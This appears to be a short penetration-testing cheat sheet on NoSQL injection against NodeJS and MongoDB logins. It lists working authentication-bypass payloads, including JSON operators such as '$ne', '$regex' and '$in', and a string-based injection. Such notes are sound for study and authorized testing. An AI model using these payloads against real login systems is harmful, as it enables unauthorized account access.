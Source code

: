 Common with NodeJS applications in conjunction with MongoDB databases.

### NodeJS + MongoDB
#### Authentication Bypass - [PortSwigger](https://portswigger.net/web-security/nosql-injection)
Within Burp change the `Content-Type` to `json`
```http
Content-Type: application/json
```
Change the parameter format to `json`
```json
{"username":"admin", "password":"admin"}
```
We can change the username value to `{"$ne":""}` and try changing the password following that
```json
{"username":{"$ne":""}, "password":"admin"}

{"username":{"$ne":""}, "password":{"$ne":""}}
```
We can try regexing a valid username like so
```json
{"username":{"$regex":"admin.*"}, "password":{"$ne":""}}
```
We can even try using a list
```json
{"username":{"$in":["admin","administrator","superadmin"]}, "password":{"$ne":""}}
```
If that dont work try this
```php
username=admin'||'1'=='1&password=admin
```